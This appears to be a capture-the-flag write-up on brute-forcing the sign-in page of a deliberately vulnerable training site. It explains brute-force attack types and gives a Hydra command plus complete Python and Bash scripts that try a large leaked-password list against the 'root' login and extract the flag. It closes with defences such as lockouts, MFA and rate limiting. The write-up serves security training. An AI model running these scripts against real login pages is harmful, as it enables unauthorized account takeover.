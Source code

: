 # 💪 Bruteforce

## 📖 Definition

A **brute-force attack** is a method used to gain unauthorized access to a system, network, or encrypted data by systematically trying all possible combinations of credentials or keys until the correct one is found. This type of attack relies on sheer computational power and persistence, making it one of the simplest, yet most resource-intensive and time-consuming, attack methods.

**Key Characteristics of a Brute-Force Attack:**

1. **Trial-and-Error Approach:** Attackers use software to automatically generate and test millions or billions of potential passwords, usernames, or encryption keys, often using algorithms that speed up this trial-and-error process.

2. **No Subtlety or Sophistication:** Unlike other types of cyber attacks that may rely on exploiting specific vulnerabilities, brute-force attacks don't require intricate knowledge of the target system. The approach is purely a numbers game: try everything until something works.

3. **Dependent on Computational Power:** The speed and feasibility of a brute-force attack are heavily influenced by the processing power available to the attacker. More powerful systems (or botnets of compromised machines working together) can test combinations faster.

4. **Types of Brute-Force Attacks:**

	- **Simple Brute-Force Attack:** Every possible combination of characters is tested, regardless of the target's characteristics.
	- **Dictionary Attack:** Attackers use a predefined list of likely passwords, often based on commonly used passwords or information known about the target.
	- **Hybrid Attack:** Combines a dictionary attack with variations on each entry, such as adding numbers or symbols to commonly used words.

## 🔍 Discovery

On the **Signin** page, we try several `username:password` combinations after realizing that the `username` and `password` are directly filled in the URL in this format: `username=<username>&password=<password>`.
So, at this point, we can code a little Python script to test all the possibilities with the `root` username. Why with this username? Because we tested it first but, in fact, whatever it is, you'll get the flag if the password is good. For the dictionary, we use [this one](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt) from GitHub.

## 🏁 Flag

**1. The manual way:**

1. Take the passwords list on [this site](https://datanews.levif.be/actualite/le-top-25-des-mots-de-passe-les-plus-courants-et-les-plus-faibles/)
2. Go on the **Signin** page
3. In the username field, type whatever you want
4. In the password field, test all the passwords in the list

**2. Using Hydra:**

1. Download and store the dictionary by running:

```bash
curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

2. Find the password by running:

```bash
hydra -l root -P dictionary -F -V "<ip>" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
```

## 💡 Solutions

We provide two solutions: a Python and a Bash script.

**script.py | Usage: `python script.py <ip>`**

```Python
import requests, sys, subprocess

password_list_url = "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt"
username = "root"

def get_password_list(url):
	response = requests.get(url)
	return response.text.splitlines()

def run_curl_command(ip, password):
	curl_command = f'curl -s "http://{ip}/index.php?page=signin&username={username}&password={password}&Login=Login#"'
	grep_command = "grep flag | awk -F': | <' '{print \"\\nThe flag is: \"$2}'"
	
	full_command = f"{curl_command} | {grep_command}"
	
	try:
		result = subprocess.check_output(full_command, shell=True, stderr=subprocess.PIPE)
		return result.decode().strip()
	except subprocess.CalledProcessError:
		return None

def bruteforce(ip):
	try:
		response = requests.get(f"http://{ip}", timeout=3)
		response.raise_for_status()
	except requests.exceptions.RequestException as e:
		print("Connection failed. Bad IP or network issue!")
		return False

	password_list = get_password_list(password_list_url)
	for password in password_list:
		password = password.strip()
		
		flag = run_curl_command(ip, password)
		
		if flag:
			print(f"Success! Username: {username} Password: {password}")
			print(flag)
			return True
	
	print("Password not found in the list.")
	return False

def main():
	if len(sys.argv) != 2:
		print("Usage: python script.py <ip>")
		sys.exit(1)
	bruteforce(sys.argv[1])

if __name__ == "__main__":
	main()
```

It first checks if the provided IP address is reachable by sending a `GET` request. It then downloads a list of common passwords from a specified URL and iterates through each password, attempting to log in with the username `root`. For each password, it constructs a `curl` command to attempt a login on the target site, and pipes the result to `grep` to check if the word "flag" appears in the response, indicating a successful login. If the word "flag" is found, the script prints the valid username, password, and the extracted flag, then stops. If no valid password is found after testing all options, it prints a failure message.

**script.sh | Usage: `./script <ip>`**

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
	echo "Usage: ./script.sh <ip>"
	exit 1
fi

ip=$1

function exec_hydra {
	curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
	output=$(hydra -l root -P dictionary -F -V "$ip" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif')
	password=$(echo "$output" | grep -oP 'password: \K\S+')
	rm dictionary
}

if command -v hydra &> /dev/null; then
	echo "Hydra is installed."
	exec_hydra
else
	echo "Hydra is not installed."
	echo "Installation..."
	git clone https://github.com/vanhauser-thc/thc-hydra.git
	cd thc-hydra
	./configure --prefix=$HOME/.local
	make
	make install
	export PATH=$HOME/.local/bin:$PATH
	source ~/.bashrc
	source ~/.zshrc
	exec_hydra
fi

curl "http://$ip/index.php?page=signin&username=root&password=$password&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag is: "$2}'
```

It first checks if the provided IP address argument is supplied. If not, it prints a usage message and exits. The script then verifies if Hydra is installed by checking for the `hydra` command. If Hydra is found, it downloads a common password dictionary using `curl`, runs Hydra with the password list to brute-force the login page, and extracts the password found from the Hydra output using `grep`. The password is stored in a variable, and the dictionary file is deleted afterward. If Hydra is not installed, the script clones the Hydra repository from GitHub, compiles, installs it locally, and sets the necessary environment variables before running Hydra. Finally, the script sends a `curl` request with the found password to the login page and extracts the flag from the response using `grep` and `awk`, printing the flag if found.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

- **Password Complexity:** Requiring complex, long passwords makes brute-forcing more time-consuming.
- **Account Lockouts:** Locking an account after several failed attempts can thwart brute-force efforts.
- **Multi-Factor Authentication (MFA):** Adding an additional layer of security (e.g., a verification code sent to the user) can stop a brute-force attack even if a password is successfully guessed.
- **Rate Limiting and Captchas:** These limit the number of attempts an attacker can make in a given timeframe, slowing down or deterring brute-force attempts.

To better understand the importance to have a stong password, here is a chart to estimate the time it takes a hacker to brute force your password in 2024:

![](https://images.squarespace-cdn.com/content/5ffe234606e5ec7bfc57a7a3/1719499399309-7FRIR5QNH5P4VHC1AGGP/Hive+Systems+Password+Table+-+2024+Rectangular.png?format=1500w&content-type=image%2Fpng)

